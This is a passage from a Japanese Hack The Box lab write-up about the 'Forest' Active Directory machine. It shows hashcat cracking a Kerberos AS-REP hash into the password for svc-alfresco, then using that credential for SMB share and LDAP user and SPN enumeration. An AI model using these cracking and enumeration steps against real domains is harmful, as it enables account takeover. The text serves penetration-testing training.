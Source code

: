 ハッシュをクラックする
```sh
hashcat hash.txt /usr/share/wordlists/rockyou.txt

<SNIP>
Dictionary cache built:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 1 sec

$krb5asrep$23$svc-alfresco@HTB.LOCAL:ba1fdefa2d38cb6186a5e2879156645f$411086042bb06b79f892e39e33384a6e3df3c23465f638ad04eca0c9f908474df8f1f9776b8d459b8c3705f2f085a5b3c565ed723518d291dd183a51cb5ad3ebdc1e6ea2ed6efd1fc8bc003517e7711e04b55d28fdfa1879933f0946f00f11c928875cb6b575d6f3fd9018d6935f40ff20f7fcc39ab028ba79d285bd37df561c40f1e079b2e7f7e89c9459cceb291f1710550f3812e80abb06238a239e0d50b4b1f2bdfd8d75f25c59430f720b17308a133eb683651be4d88225273830298efb73fbd76b6a4b599c90827276a39b9729b8b811b20fd4d61f9cc0592ab631f350c9361d7a4ba7:s3rvice
<SNIP>
```

### 認証情報1
ハッシュがクラックできて、svc-alfrescoの認証情報が見つかった
svc-alfresco : s3rvice

- 得た認証情報を使って、SMBとLDAP、WinRMにログインして、どのサービスで有効なアカウントなのかと、匿名ログイン以上に見れる情報があるのかを確認する
- SMBにはログインできたけど、特に目立った共有フォルダはない
```bash
──╼ [★]$ smbmap -H 10.129.206.80 -u svc-alfresco -p 's3rvice'
[+] IP: 10.129.206.80:445	Name: 10.129.206.80                                     
        Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	ADMIN$                                            	NO ACCESS	Remote Admin
	C$                                                	NO ACCESS	Default share
	IPC$                                              	READ ONLY	Remote IPC
	NETLOGON                                          	READ ONLY	Logon server share 
	SYSVOL                                            	READ ONLY	Logon server share 

```

LDAPも匿名ログインでは見れなかったUsersフォルダも見れる
```bash
ldapsearch -x -b "OU=Users,DC=htb,DC=local" -D "CN=svc-alfresco,OU=Service Accounts,DC=htb,DC=local" -w 's3rvice' -H ldap://10.129.206.80 -b "DC=htb,DC=local" -s sub cn

 <SNIP>
```

改めて、SPNが登録されているユーザーがいないか確かめる
- いない
```bash
└──╼ [★]$ ldapsearch -x -D "CN=svc-alfresco,OU=Service Accounts,DC=htb,DC=local" -w 's3rvice' -H ldap://10.129.206.80 -b "DC=htb,DC=local" -s sub "(&(objectClass=user)(servicePrincipalName=*)(!(userAccountControl:1.2.840.113556.1.4.803:=2)))" sAMAccountName servicePrincipalName userAccountControl

# extended LDIF
#
# LDAPv3
# base <DC=htb,DC=local> with scope subtree
# filter: (&(objectClass=user)(servicePrincipalName=*)(!(userAccountControl:1.2.840.113556.1.4.803:=2)))
# requesting: sAMAccountName servicePrincipalName userAccountControl 
#

# FOREST, Domain Controllers, htb.local
dn: CN=FOREST,OU=Domain Controllers,DC=htb,DC=local
```